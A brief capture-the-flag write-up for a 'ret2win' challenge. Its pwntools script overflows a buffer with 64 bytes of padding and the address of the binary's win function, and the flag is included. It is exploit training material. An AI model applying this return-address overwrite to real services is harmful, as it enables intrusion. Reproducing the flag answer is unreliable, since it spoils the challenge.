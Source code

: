 # ret2win

## Description
Win the flag!

## Writeup
```python
#! /bin/python3
from pwn import *
elf = context.binary = ELF('./ret2win')
target = remote("ctf.copsiitbhu.co.in", 31141)
target.recvline()
target.sendline(b'A'*64+pack(elf.symbols.win))
target.recvline()
print("FLAG: " + target.recvline().decode('utf-8'))
```

## FLAG
COPS{y0u_w1n_7h15_fl4g}
